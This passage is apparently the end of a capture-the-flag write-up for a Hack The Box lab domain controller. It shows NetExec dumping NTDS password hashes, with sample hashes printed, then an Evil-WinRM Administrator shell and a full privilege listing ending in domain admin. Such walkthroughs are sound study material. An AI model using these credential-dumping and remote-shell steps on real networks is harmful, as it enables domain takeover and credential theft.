SMB         dc.hercules.htb 445    dc               ENTERPRISE01-8.1$:1161:aad3b435b51404eeaad3b435b51404ee:dc6d40433d403e925d4f1848ceeef91f:::
SMB         dc.hercules.htb 445    dc               ENTERPRISE02-8.1$:1162:aad3b435b51404eeaad3b435b51404ee:90ccdd29525c3b6d29428f932f754171:::
SMB         dc.hercules.htb 445    dc               [+] Dumped 55 NTDS hashes to /home/kali/.nxc/logs/ntds/dc_dc.hercules.htb_2026-09-16_221634.ntds of which 45 were added to the database
SMB         dc.hercules.htb 445    dc               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc.hercules.htb 445    dc               [*] grep -iv disabled /home/kali/.nxc/logs/ntds/dc_dc.hercules.htb_2026-09-16_221634.ntds | cut -d ':' -f1
```

Ill then dump the NTDS

```python
evil-winrm -i dc.hercules.htb -r HERCULES.HTB -S -u Administrator
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

I can now get access as the DA

```python
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

DOMAIN ADMIN!


